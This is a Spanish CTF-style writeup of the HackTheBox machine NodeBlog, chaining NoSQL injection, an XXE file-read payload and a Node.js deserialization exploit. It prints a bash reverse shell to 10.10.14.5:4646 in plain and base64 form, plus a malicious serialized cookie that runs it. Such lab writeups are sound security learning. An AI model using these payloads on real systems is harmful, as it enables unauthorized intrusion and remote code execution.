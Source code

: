 ```yaml
---
layout: single
title: NodeBlog - HackTheBox
excerpt: "En este writeup se documenta la explotación de la máquina NodeBlog en HackTheBox, destacando vulnerabilidades en NoSQL Injection, XML External Entity (XXE) y deserialización insegura en Node.js"
date: 2025-02-25
classes: wide
header:
  teaser: /assets/images/NodeBlog/NodeBlog.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - HackTheBox
  - Red Team
tags:  
  - NoSQL Injection
  - XXE
  - Deserialización
---
```


![](/assets/images/NodeBlog/NodeBlog.png){:style="max-width:450px;height:auto;"}

## Resumen

En este writeup se documenta la explotación de la máquina NodeBlog en HackTheBox. La máquina presenta múltiples vulnerabilidades, incluyendo inyección NoSQL, inclusión de entidades externas XML (XXE) y deserialización insegura en Node.js, que permiten obtener acceso al sistema y escalar privilegios hasta root.

## Reconocimiento

El servidor expone los siguientes servicios:

- SSH en el puerto 22

- Servicio web en el puerto 5000

Realizamos un escaneo de puertos con nmap para identificar los servicios disponibles, también ejecutamos scripts básicos de reconocimiento con nmap:

![](/assets/images/NodeBlog/Reconocimiento-Puertos.png)

## Página Web

El servicio web en el puerto 5000 muestra un blog con una página de inicio de sesión vulnerable a NoSQL Injection.

![](/assets/images/NodeBlog/Web.png)

![](/assets/images/NodeBlog/Web-Login.png)

Al interceptar la petición de inicio de sesión con BurpSuite, vemos que permite autenticarse mediante inyección NoSQL.

![](/assets/images/NodeBlog/NoSQL.png)

## Reverse Shell

Utilizando BurpSuite, capturamos la cookie de sesión del usuario admin.

![](/assets/images/NodeBlog/NoSQL-Cookie.png)

Al ingresar la cookie en el navegador o realizar la petición con BurpSuite, accedemos como administrador:

![](/assets/images/NodeBlog/Inicio-Sesion-Admin.png)

La aplicación permite subir archivos XML. Exploramos la vulnerabilidad XXE (XML External Entity) creando un archivo XML que lea el contenido de /opt/blog/server.js, ruta identificada en las respuestas del servidor durante la inyección NoSQL.

    <?xml version="1.0"?>
    <!DOCTYPE data [
        <!ENTITY file SYSTEM "file:///opt/blog/server.js">
    ]>
    <post>
    <title>LFI Post</title>
    <description>Read File</description>
    <markdown>&file;</markdown>
    </post>

Al subirlo, obtenemos el código fuente de server.js.

![](/assets/images/NodeBlog/Funcion-Deserializar-Cookie.png)

Aquí observamos que la función authenticated deserializa la cookie de sesión sin validación, permitiendo la ejecución de código arbitrario.

## Exploit de Deserialización en Node.js

Generamos una payload para una reverse shell:

    echo "bash -i >& /dev/tcp/10.10.14.5/4646 0>&1" | base64 -w 0; echo

Resultado:

    YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41LzQ2NDYgMD4mMQo=

Generamos una cookie maliciosa:

    {"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41LzQ2NDYgMD4mMQo= | base64 -d | bash',function(error, stdout, stderr) { console.log(stdout) });}()"}

Resultado (Cookie):

    %7b%22%72%63%65%22%3a%22%5f%24%24%4e%44%5f%46%55%4e%43%24%24%5f%66%75%6e%63%74%69%6f%6e%20%28%29%7b%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%65%63%68%6f%20%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%43%34%78%4d%43%34%78%4e%43%34%31%4c%7a%51%32%4e%44%59%67%4d%44%34%6d%4d%51%6f%3d%20%7c%20%62%61%73%65%36%34%20%2d%64%20%7c%20%62%61%73%68%27%2c%66%75%6e%63%74%69%6f%6e%28%65%72%72%6f%72%2c%20%73%74%64%6f%75%74%2c%20%73%74%64%65%72%72%29%20%7b%20%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%73%74%64%6f%75%74%29%20%7d%29%3b%7d%28%29%22%7d

Iniciamos un listener con netcat, luego insertamos la cookie en la web:

![](/assets/images/NodeBlog/Reverse-Shell.png)

Obtenemos acceso a la máquina y encontramos la bandera 'user', se encuentra en el directorio 'home' del usuario 'admin':

![](/assets/images/NodeBlog/User-Flag.png)

## Escalada de Privilegios

Si miramos los puertos que están corriendo en el sistema, podemos ver que el puerto 27017 está activo, este puerto por defecto se suele utilizar para MongoDB:

![](/assets/images/NodeBlog/Puertos.png)

Ejecutamos Mongo y buscamos el usuario 'admin', ahí encontraremos una contraseña:

![](/assets/images/NodeBlog/Root-Pass.png)

Si intentamos iniciar sesión como el usuario privilegiado 'root' añadiendo esa contraseña, podremos iniciar sesión:

![](/assets/images/NodeBlog/Sudo-Su.png)

La bandera 'root' se encuentra en el directorio 'home' del usuario 'root':

![](/assets/images/NodeBlog/Root-Flag.png)

### Conclusión

La máquina NodeBlog de HackTheBox es un excelente ejemplo de cómo múltiples vulnerabilidades pueden encadenarse para lograr acceso y escalada de privilegios en un sistema. A través de la explotación de NoSQL Injection, logramos autenticarnos como administrador; con XXE, accedimos al código fuente de la aplicación; y finalmente, mediante deserialización insegura en Node.js, obtuvimos una reverse shell.

El análisis posterior de la base de datos MongoDB reveló credenciales que permitieron elevar privilegios a root, completando la explotación de la máquina. Este reto resalta la importancia de aplicar buenas prácticas de seguridad en el desarrollo web, como la validación de entradas, el uso seguro de la deserialización y la restricción de permisos en bases de datos.
